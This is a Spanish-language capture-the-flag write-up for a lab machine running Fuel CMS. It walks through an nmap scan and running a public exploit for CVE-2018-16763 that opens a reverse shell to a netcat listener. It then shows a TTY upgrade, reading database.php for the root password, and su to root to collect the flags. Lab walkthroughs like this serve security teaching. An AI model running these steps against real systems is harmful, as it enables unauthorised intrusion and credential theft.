

Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 10.10.176.20 -oN escaneo
```


Vemos que que está corriendo un servidor apache/2.4.18 en una máquina ubuntu, además podemos ver que en el robots.txt podemos encontrar una carpeta llamada "fuel". Pero antes vamos a ver que contiene la web.


Vemos que nos indica que está usuando un CMS llamado Fuel, que su panel de administrador está en la carpeta fuel y con las credenciales "admin" de usuario y de contraseña "admin". Pero al ser un cms, vamos a ver si podemos encontrar un exploit para bypassearlo y generarnos una shell.

`Linx del exploit:` https://github.com/ice-wzl/Fuel-1.4.1-RCE-Updated

Este exploit está asignado al `CVE-2018-16763`. Que nos permite realizar un `RCE` (Remoste Comand Execution).

```
git clone https://github.com/ice-wzl/Fuel-1.4.1-RCE-Updated.git
```


Una vez lo tenemos descargado, vamos a ejcutarlo.

```
python Fuel-Updated.py http://10.10.176.20 10.9.239.22 443
```


En otra terminal nos pondremos escuchando por `netcat` para poder generarnos la shell.
```
nc -lnvp 443
```


Una vez tengamos la shell vamos a realizar un tratamiento de la tty para evitar problemas con los comandos.
```
script /dev/null -c bash
Cntl + Z
stty  raw -echo;fg
reset xterm
export SHELL=bash
export TERM=xterm
```

Una vez lo tengamos vamos a ver si podemos encontrar las flags. Nos situamos a la carpeta del usuario y encontraremos la flag de usuario.
```
cd /home/www-data
cat flag.txt
```


Una vez tengamos la de usuario, vamos a por la de administrador. Retomando la página web, en la parte que nos escribe en el paso dos, que había un archivo llamado database.php que contenia toda la información de los usuarios.
```
cd /var/www/html/fuel/application/config
cat database.php
```

Aquí nos va a mostrar la contraseña del usuario `root` que es `mememe`.


Por lo tanto, solo nos quedará cambiar de usuario.
```
su root
password: mememe
```


Una vez ya somos root, vamos a la carpeta `/root` y mostramos la flag.
```
cat root.txt
```
